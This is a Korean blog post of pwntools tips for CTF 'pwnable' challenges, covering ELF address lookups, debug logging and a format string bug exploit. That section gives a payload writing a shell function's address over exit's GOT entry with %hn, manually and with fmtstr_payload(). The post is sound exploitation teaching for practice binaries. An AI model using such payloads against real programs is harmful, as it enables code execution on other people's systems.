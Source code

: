 ```yaml
---
layout: post
title:  "Pwntools Usage"
date:   2020-10-01
categories: ["2020","tips","pwnable"]
update:   2020-10-01
comment: true
tags: [tips,pwnable]
---
```


## Pwntools Usage

❗ FSB 문제를 풀다가 새로 알게 된 pwntools의 기능이 있어 정리하고 이참에 pwntools 기능들 배우는 거 있을 때마다 여기에 업데이트 하려고 한다. 

---

### ELF

바이너리의 `got`, `bss` 등 여러 주소를 구할 때 `ELF()`를 쓰면 편하다.

```python
from pwn import *

e=ELF('binary') 
puts_got =e.got['puts'] # get puts got addr (same with plt)
bss_addr = e.bss() # get bss addr
func_addr = e.symbols['func'] # get custom func addr
```

 주로 위 3가지를 많이 쓴다. 주소들을 정수로 반환해줘서 바로 packing에 사용할 수 있다.

---

### DEBUG

pwntools에는 디버깅할 때 유용한 기능도 많이 제공한다.

``` python
from pwn import *

context.log_level="debug" # give useful info for debugging
log.info('some_string') # logging message (much better than print())
```

`context.log_level="debug"`는 python 파일을 실행하고 내가 `send`할 때나 `recv`할 때, 자세한 정보를 보여줘서 디버깅할 때 편하다.

`log.info()`는 그냥 `print()`로 확인하는 거보다 간지나는 로깅 메시지를 남길 수 있다.

가장 중요한 **gdb.attach() & raw_input()** :

> 🚀 참고
>
> [https://cosyp.tistory.com/229](https://cosyp.tistory.com/229)

내가 저 사람보다 자세히 쓸 자신이 없다 ! 😁

---

### FSB (Format String Bug) with Pwntools

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

`Partial RELRO`가 걸려있기 때문에 `got` 주소를 덮어야 겠다고 생각하고 코드를 보면, **FSB**가 발생해서 `got`를 덮을 수 있다. 쉘을 따주는 함수도 있었기 때문에 그 함수 주소로 main함수 마지막에 실행하는 `exit`함수의 `got`를 덮어 쉘을 따려고 했다. 

나는 평소에 **FSB**를 사용할 때 `%hn`으로 2바이트씩 안 덮고 한꺼번에 `%n`로 4바이트를 덮었다. 근데 이 문제에서는 그렇게 하니까 안 된다. 이유는 정확히는 모르겠지만 시간제한 때문인 거 같다.. 그래서 `%hn`으로 2바이트씩 덮어줬고 성공했다.

즉 페이로드가 다음과 같다:

```python
payload+=p32(exit_got+2)
payload+=p32(exit_got)
payload+="%2044c"
payload+="%1$hn"
payload+="%32261c"
payload+="%2$hn"
```

**But** pwntools에는 이 페이로드를 알아서 짜주는 짱짱 기능이 있었다. 😂

``` python
# offset = 1, overwrite exit_got to get_shell
payload=fmtstr_payload(1,{exit_got:get_shell})
```

`fmtstr_payload()`라는 함수에 offset과 덮을 함수를 주면 알아서 페이로드를 짜준다.... 미쳐따 그냥

여기서 offset은 `ESP+0x4*(offset)`이라고 생각하면 된다. 즉 `%x`를 했을 때 첫번 째 `%x`에서 buf의 시작지점의 문자열이 출력되었기 때문에 offset이 1이다.

